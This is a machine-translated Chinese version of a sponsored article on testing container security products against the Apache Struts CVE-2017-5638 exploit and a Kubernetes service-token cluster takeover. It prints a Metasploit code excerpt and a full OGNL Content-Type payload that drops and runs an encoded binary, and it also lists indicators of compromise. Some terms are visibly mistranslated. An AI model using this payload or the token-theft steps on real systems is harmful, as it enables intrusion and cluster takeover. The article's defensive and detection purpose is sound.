



# 如何利用真实世界的漏洞测试您的容器安全性

> 原文：<https://thenewstack.io/measure-efficacy-container-security-solution-real-world-exploits/>

[](https://www.stackrox.com/)

 [雅提纳伊克

雅提在为微服务和 Docker 容器构建安全方面经验丰富，对底层软件和大型系统工程充满热情。](https://www.stackrox.com/) [](https://www.stackrox.com/)

这是成为 DevOps 工程师的最佳时机。与传统的 web 堆栈相比，容器化极大地简化了部署 web 服务的任务，如数据库、键/值存储和服务器。此外，容器编排工具，如 Google 的 Kubernetes 和 Docker Swarm，使组织能够自动部署和管理这些容器化的应用程序。但是，让工程师的生活更轻松、更高效的工具也可能成为攻击者的礼物。

不管最初的利用途径是什么，攻击者的第一个目标通常是获得对目标系统的主机级访问权限。通过这种访问，攻击者可以利用系统达到各种恶意目的，如泄漏数据、保持一个存在点、移动到网络中更高价值的资产等。随着容器化的应用程序成为现代 web 开发的新标准，开发人员和安全团队仍然发现自己处于危险的境地:攻击者很有创造力，有志者事竟成。

在本文中，我们展示了可用于测量容器安全产品功效的开发技术。我们探索了广泛使用的 web 服务器中的漏洞利用，并展示了该应用程序的容器化如何最小化攻击面。

尽管通过容器化减少了主机级访问，我们还展示了一个错误配置的容器编排器如何被用来给攻击者提供“王国的钥匙”,并实现对生产容器集群的完全控制。在每个阶段，我们概述了可用于检测这些攻击的危害指标(IoCs ),并表明安全性必须嵌入软件开发生命周期的所有级别，包括运行时检测。

## 易受攻击的应用程序

### Apache Struts

[Apache Struts](https://struts.apache.org/) 是一个用于构建 web 应用程序的流行 Java 框架，因为它构建在众所周知的 [JVM](https://en.wikipedia.org/wiki/Java_virtual_machine) 平台上，并支持各种有用的插件和扩展。

2017 年 3 月，Apache Struts 解析器中披露了一个漏洞，使得攻击者能够在受害服务器上远程执行代码。许多安全研究人员已经探索和讨论了这个漏洞，部分原因是它在主流框架中是一个特别严重的错误，但也因为它导致了 Equifax 的大量数据丢失。Struts 是在容器化环境中运行的流行 web 应用程序，解析器代码是发现漏洞的常见位置。

Apache Struts 应用程序 2.3.32 之前的 2.3.x 版本和 2.5.10.1 之前的 2.5.x 版本存在 Jakarta MultiParser 异常处理代码问题。如果在内容类型解析期间生成异常，它会尝试将无效数据作为错误消息的一部分包含进来。但是，它没有显示错误消息，而是解析并执行了[对象图导航库](https://commons.apache.org/proper/commons-ognl/) (OGNL)表达式。

下面是包含漏洞和[修复](https://github.com/apache/struts/commit/b06dd50af2a3319dd896bf5c2f4972d2b772cf2b) :
的相关代码

漏洞在 findText 中，根据[文档](https://web.archive.org/web/20150905143806/https://struts.apache.org/maven/struts2-core/apidocs/com/opensymphony/xwork2/util/LocalizedTextUtil.html)，find text 为给定的键(即 aTextName)查找本地化的文本消息，但同时评估键和消息。

```
public static  
<a  href="https://web.archive.org/web/20150908034942/http://docs.oracle.com/javase/7/docs/api/java/lang/String.html?is-external=true">String</a>  findText(<a  href="https://web.archive.org/web/20150908031759/http://docs.oracle.com/javase/7/docs/api/java/lang/Class.html?is-external=true">Class</a>  aClass,              
 <a  class="utm-none"  href="https://web.archive.org/web/20150908034942/http://docs.oracle.com/javase/7/docs/api/java/lang/String.html?is-external=true">String</a>  aTextName,          
     <a  class="utm-none"  href="https://web.archive.org/web/20150826222603/http://docs.oracle.com/javase/7/docs/api/java/util/Locale.html?is-external=true">Locale</a>  locale,              
 <a  class="utm-none"  href="https://web.archive.org/web/20150908034942/http://docs.oracle.com/javase/7/docs/api/java/lang/String.html?is-external=true">String</a>  defaultMessage,              
 <a  class="utm-none"  href="https://web.archive.org/web/20150908050913/http://docs.oracle.com/javase/7/docs/api/java/lang/Object.html?is-external=true">Object</a>[]  args)

```

如果找到一条消息，**$ {…}内的任何内容都将被视为 OGNL 表达式，并按此进行评估**。攻击者可以通过发送如下所示的带有恶意负载的精心编制的 HTTP 请求来利用此漏洞， [CVE-2017-5638](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-5638) [通过内容类型头:](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/multi/http/struts2_content_type_ognl.rb)

```
  def execute_command(cmd)
   ognl  =  ''
   ognl  &lt;&lt;  %Q|(#cmd=@org.apache.struts2.ServletActionContext@getRequest().getHeader('#{@data_header}')).|

#You can add headers to the server's response for debugging with this:
  #ognl &lt;&lt; %q|(#r=#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse']).|
  #ognl &lt;&lt; %q|(#r.addHeader('decoded',#cmd)).|

ognl  &lt;&lt;  %q|(#os=@java.lang.System@getProperty('os.name')).|
  ognl  &lt;&lt;  %q|(#cmds=(#os.toLowerCase().contains('win')?{'cmd.exe','/c',#cmd}:{'/bin/sh','-c',#cmd})).|
  ognl  &lt;&lt;  %q|(#p=new java.lang.ProcessBuilder(#cmds)).|
  ognl  &lt;&lt;  %q|(#p.redirectErrorStream(true)).|
  ognl  &lt;&lt;  %q|(#process=#p.start())|

send_struts_request(ognl,  extra_header:  cmd)
  end

```

当我们使用 [Wireshark](https://www.wireshark.org/) 检查 HTTP 请求时，内容类型包含最终将在受害者机器上执行命令的有效载荷。下面是一个 Apache Struts 漏洞有效负载:

```
Content-Type:
%{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#data=@org.apache.struts2.ServletActionContext@getRequest().getHeader('X-RnXx')).(#f=@java.io.File@createTempFile('KLny','.exe')).(#f.setExecutable(true)).(#f.deleteOnExit()).(#fos=new java.io.FileOutputStream(#f)).(#d=new sun.misc.BASE64Decoder().decodeBuffer(#data)).(#fos.write(#d)).(#fos.close()).(#p=new java.lang.ProcessBuilder({#f.getAbsolutePath()})).(#p.start()).(#f.delete())},application/x-www-form-urlencoded X-Rnxx:f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAAeABAAAAAAABAAAAAAAAAAAAAAAAAAAAAAAAAAEAAOAABAAAAAAAAAAEAAAAHAAAAAAAAAAAAAAAAAEAAAAAAAAAAQAAAAAAA9wAAAAAAAAB2AQAAAAAAAAAQAAAAAAAASDH/aglYmbYQSInWTTHJaiJBWrIHDwVIhcB4W2oKQVlWUGopWJlqAl9qAV4PBUiFwHhESJdIuQIAEVwNTql3UUiJ5moQWmoqWA8FSIXAeRtJ/8l0ImojWGoAagVIiedIMfYPBUiFwHm36wxZXloPBUiFwHgC/+ZqPFhqAV8PBQ==]

```

Apache Struts 有两个已知的漏洞。一个是上面显示的异常处理；另一个是 XStream XML REST 插件对用户数据的不安全反序列化。

### 不那么安全——即使在集装箱里

在容器中运行应用程序的一个好处是，它们允许我们打包特定版本的软件，并在任何地方运行它。容器运行时在构建时就考虑了隔离。通过将每个容器放在一个进程、用户 id 和网络名称空间中，安全性得到了提高。但是，这些好处并不能阻止攻击者利用运行在容器内部的易受攻击的应用程序。

例如，在容器内运行的应用程序可能能够从主机装载敏感目录。我们将在下一节展示如何利用对敏感目录的访问。此外，如果没有在容器运行时引擎中启用用户名称空间，应用程序将被授予 root 权限，除非小心地删除权限并作为非 root 用户运行它们。换句话说，如果攻击者设法利用一个漏洞，他们可以修改主机文件系统，或者在容器配置错误而没有遵循最佳实践的情况下执行任意命令。保护容器化应用的实用技巧包括启用 [AppArmor](https://docs.docker.com/engine/security/apparmor/) 和 [Seccomp](https://docs.docker.com/engine/security/seccomp/) ，以及最小化名称空间泄漏。我们已经在之前的[博客](https://www.stackrox.com/post/2017/08/hardening-docker-containers-and-hosts-against-vulnerabilities-a-security-toolkit/)中概述了其中的一些技巧。

## 如何对 Apache Struts 发起攻击

### 漏洞利用设置

我们在 Kubernetes 集群上部署了一个带有 Apache Struts 2 漏洞版本的 web 应用程序(打包为 Docker image[piesecurity/Apache-Struts 2-CVE-2017-5638](https://hub.docker.com/r/piesecurity/apache-struts2-cve-2017-5638/))。部署/服务 YAML 文件如图 3 所示。可以使用 kubectl create -f < yaml 文件名>启动应用程序。这将打开在端口 8080 上服务的 web 应用程序。

以下是 YAML 的 Apache Struts Kubernetes 部署:

```
apiVersion:  v1
kind:  Service
metadata:
  name:  struts2
  labels:
  service:  struts2
spec:
  ports:
  -  port:  8080
  selector:
  service:  struts2
  tier:  frontend
  type:  LoadBalancer
---
apiVersion:  extensions/v1beta1
kind:  Deployment
metadata:
  name:  struts2
  labels:
  service:  struts2
  app:  struts2
spec:
  replicas:  1
  template:
  metadata:
  labels:
  service:  struts2
  tier:  frontend
  spec:
  containers:
  -  image:  piesecurity/apache-struts2-cve-2017-5638
  name:  struts2
  ports:
  -  containerPort:  8080
  name:  web

```



图 3:使用易受攻击的 Apache Struts 版本的 Web 应用程序

为了利用这个漏洞，我们使用了一个名为[multi/http/struts 2 _ content _ type _ ognl](https://www.rapid7.com/db/modules/exploit/multi/http/struts2_content_type_ognl)的 Metasploit 模块。该模块发送一个精心编制的 HTTP 有效负载来利用[漏洞](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-5638)。我们还使用[分段反向 TCP shell](https://www.rapid7.com/db/modules/payload/linux/x64/shell/reverse_tcp) 有效负载建立了一个返回攻击主机的反向 shell。

## 利用会话

下面是一个展示该漏洞的 Metasploit 会话:

## 如何检测攻击

### 应用程序日志

下面是显示异常的 Apache Struts 容器日志":

```
2018-01-14  23:43:40,618  WARN  (org.apache.struts2.dispatcher.multipart.JakartaMultiPartRequest:60)  -  Unable to parse request
org.apache.commons.fileupload.FileUploadBase$InvalidContentTypeException:  the request doesn't contain a multipart/form-data or multipart/mixed stream, content type header is %{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#data=@org.apache.struts2.ServletActionContext@getRequest().getHeader('X-RCgj')).(#f=@java.io.File@createTempFile('oBKX','.exe')).(#f.setExecutable(true)).(#f.deleteOnExit()).(#fos=new java.io.FileOutputStream(#f)).(#d=new sun.misc.BASE64Decoder().decodeBuffer(#data)).(#fos.write(#d)).(#fos.close()).(#p=new java.lang.ProcessBuilder({#f.getAbsolutePath()})).(#p.start()).(#f.delete())}
  at org.apache.commons.fileupload.FileUploadBase$FileItemIteratorImpl.&lt;init&gt;(FileUploadBase.java:908)
  at org.apache.commons.fileupload.FileUploadBase.getItemIterator(FileUploadBase.java:331)
  at org.apache.commons.fileupload.FileUploadBase.parseRequest(FileUploadBase.java:351)
  at org.apache.struts2.dispatcher.multipart.JakartaMultiPartRequest.parseRequest(JakartaMultiPartRequest.java:189)
  at org.apache.struts2.dispatcher.multipart.JakartaMultiPartRequest.processUpload(JakartaMultiPartRequest.java:127)
  at org.apache.struts2.dispatcher.multipart.JakartaMultiPartRequest.parse(JakartaMultiPartRequest.java:92)
  at org.apache.struts2.dispatcher.multipart.MultiPartRequestWrapper.&lt;init&gt;(MultiPartRequestWrapper.java:81)
  at org.apache.struts2.dispatcher.Dispatcher.wrapRequest(Dispatcher.java:779)
  at org.apache.struts2.dispatcher.ng.PrepareOperations.wrapRequest(PrepareOperations.java:134)
  at org.apache.struts2.dispatcher.ng.filter.StrutsPrepareFilter.doFilter(StrutsPrepareFilter.java:79)
  at org.apache.catalina.core.ApplicationFilterChain.internalDoFilter(ApplicationFilterChain.java:241)
  at org.apache.catalina.core.ApplicationFilterChain.doFilter(ApplicationFilterChain.java:208)
  at org.apache.catalina.core.StandardWrapperValve.invoke(StandardWrapperValve.java:218)
  at org.apache.catalina.core.StandardContextValve.invoke(StandardContextValve.java:110)
  at org.apache.catalina.authenticator.AuthenticatorBase.invoke(AuthenticatorBase.java:506)
  at org.apache.catalina.core.StandardHostValve.invoke(StandardHostValve.java:169)
  at org.apache.catalina.valves.ErrorReportValve.invoke(ErrorReportValve.java:103)
  at org.apache.catalina.valves.AccessLogValve.invoke(AccessLogValve.java:962)
  at org.apache.catalina.core.StandardEngineValve.invoke(StandardEngineValve.java:116)
  at org.apache.catalina.connector.CoyoteAdapter.service(CoyoteAdapter.java:445)
  at org.apache.coyote.http11.AbstractHttp11Processor.process(AbstractHttp11Processor.java:1115)
  at org.apache.coyote.AbstractProtocol$AbstractConnectionHandler.process(AbstractProtocol.java:637)
  at org.apache.tomcat.util.net.AprEndpoint$SocketWithOptionsProcessor.run(AprEndpoint.java:2486)
  at java.util.concurrent.ThreadPoolExecutor.runWorker(ThreadPoolExecutor.java:1145)
  at java.util.concurrent.ThreadPoolExecutor$Worker.run(ThreadPoolExecutor.java:615)
  at org.apache.tomcat.util.threads.TaskThread$WrappingRunnable.run(TaskThread.java:61)
  at java.lang.Thread.run(Thread.java:745)

```

## 妥协的指标

### 网络

该漏洞通过发送精心编制的 HTTP Content-Type 标头来利用。Content-Type 通常包含要在远程易受攻击的应用程序上执行的代码。

### 文件系统

利用漏洞的有效负载可能从简单的 shell 命令到写入文件系统然后执行的二进制文件不等。

### 过程

如果有效负载执行二进制文件，它将产生一个进程。我们应该会在`ps aux`或`top`输出中看到异常进程的执行。

### 网络

可能会有人尝试打开一个反向外壳，该外壳通常会打开一个以前从未使用过的端口。

## 利用库伯内特斯打破容器

一旦攻击者在受害机器上获得立足点，他们有许多方法可以通过获得 API 秘密令牌来瞄准 Kubernetes 集群中的 orchestrator，正如 Google 的 Greg Castle 在他精彩的[演讲](https://www.youtube.com/watch?time_continue=426&v=ohTq0no0ZVU)中所描述的。

根据我们的 Apache Struts 漏洞，我们可以在受害者容器中建立一个反向外壳。在 Kubernetes 中，每个 pod 都可以通过/var/run/secrets/ path 访问 API 服务器服务令牌密钥。一旦我们有了服务令牌，我们就可以在受害者的 Kubernetes 集群上发出任何 API 请求。如果没有在集群上配置 RBAC，这很容易做到。

这里有一个展示集群折衷的会话:



图 5: Kubernetes 集群遭到破坏。

在这个演示中，我们将 kubectl 二进制文件上传到了受害者的 pod 中。一旦我们有了 kubectl 二进制文件和服务令牌，我们就可以在受害者的 Kubernetes 集群上运行任何命令。

## 妥协的指标

### 文件系统

未知进程读取 Kubernetes 服务令牌。将未知文件写入文件系统。更改文件的权限。

### 过程

启动一个 shell/未知进程，并在 pod 中使用 kubectl 二进制文件。

### 管弦乐演奏家

启动未知服务或终止服务。

## 自动化检测



图 6:攻击期间的事件时间表

为了检测这些异常，我们需要关联网络流量、文件系统、流程活动和 orchestrator 事件。可以想象，这需要大规模地分析系统调用和 orchestrator 事件。分析和关联特定服务的系统调用是一个复杂的问题。它包括查看和过滤数百万个系统调用、orchestrator 事件、主机信号等。—更不用说把它们关联起来的问题了。有些解决方案只关注网络流量或系统活动。然而，很少有解决方案着眼于所有这些信号，并以有意义的方式将它们关联起来。

## 结论

衡量安全产品的功效是很困难的。它包括针对真实的漏洞测试产品。检测正确的安全事件并自动处理这些事件是使安全分析师的工作变得轻松的一个重要因素。

许多容器安全供应商提供基于规则的检测解决方案。用户被迫创建规则或签名来检测危害。但是规则很容易出错，也不可靠，更不用说理解漏洞和制定规则需要大量的人力。使用机器学习技术提供基于规则的检测和算法检测相结合的解决方案通常最适合检测大范围的容器攻击。

StackRox 赞助了这篇文章。

<svg xmlns:xlink="http://www.w3.org/1999/xlink" viewBox="0 0 68 31" version="1.1"><title>Group</title> <desc>Created with Sketch.</desc></svg>